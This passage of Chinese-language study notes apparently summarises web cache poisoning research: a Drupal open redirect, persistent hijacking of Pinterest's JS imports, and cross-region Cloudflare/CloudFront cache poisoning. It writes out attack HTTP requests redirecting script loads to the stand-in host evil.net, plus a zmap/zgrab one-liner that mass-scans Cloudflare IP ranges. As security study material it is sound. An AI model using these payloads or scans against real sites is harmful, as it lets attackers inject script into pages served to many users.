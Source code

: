 Drupal 看到 double-slash `//` 在裡面時，會嘗試 redirect 回到 `/` 修正他
- Drupal 認為目標 URL 告訴人們使用 username `evil.com` 來訪問 `unity.com`
- 實際上，borwser 自動把 `\` 轉換成 `/`，把 user 導向 `evil.net/@unity.com` 去

open redirection 的問題本身並不嚴重，但卻是讓人能進行更危險攻擊的一條路徑

### Persistent redirect 的挾持
結合 `parameter override` 跟 `open redirect` 來 persistently hijack any redirect  

`Pinterest` 的 business website 某些頁面，用 redirect 來 import JS  
這 request
- `/foo.js?v=1` 被 cache poison 了
- 參數數 `destination=https://evil.net\@business.pinterest.com/`

```
GET /?destination=https://evil.net\@business.pinterest.com/ HTTP/1.1
Host: business.pinterest.com
X-Original-URL: /foo.js?v=1
```

這 hijacks 的 JS import 的路徑
- 讓我們能完全掌控幾個原本應該是 static page 的頁面

```
GET /foo.js?v=1 HTTP/1.1

HTTP/1.1 302 Found
Location: https://evil.net\@unity.com/
```

### Cross-Cloud Poisoning
一位評分員，用 [CVSS](https://www.hackerone.com/vulnerability-management/common-vulnerability-scoring-system-cvss-complete-explanation) 評估作者 report 給 CloudFront 的 issue，評定為 `high`
- 給出的理由是，需要 rent 好多 VPSs 才有可能感染所有 CloudFront's caches

作者先忍住去爭論這件事情，進一步思考
- 是否可能在不依賴 VPS 的情況下進行跨區域攻擊。

CloudFront 有一張有用的緩存地圖
- 可以使用免費的 online service 識別其 IP 地址
- 這些服務會從一系列地理位置發出 DNS 查詢

由於 Cloudflare 有更多的不停地區 cache
- Cloudflare publish 了所有 IP 列表
- 因此我編寫了一個快速 script 來通過每個 IP request `waf.party/cgn-cgi/trace` 並記錄我訪問的 cache

```shell
curl https://www.cloudflare.com/ips-v4 | sudo zmap -p80| zgrab --port 80 --data traceReq | fgrep visit_scheme | jq -c '[.ip , .data.read]' cf80scheme | sed -E 's/\["([0-9.]*)".*colo=([A-Z]+).*/\1 \2/' | awk -F " " '!x[$2]++'
```

這表明當定位 `waf.party`（託管在愛爾蘭）時，可以從我在曼徹斯特的家中訪問以下 cache
```
104.28.19.112 LHR    172.64.13.163 EWR    198.41.212.78 AMS
172.64.47.124 DME    172.64.32.99 SIN     108.162.253.199 MSP
172.64.9.230 IAD     198.41.238.27 AKL    162.158.145.197 YVR
```
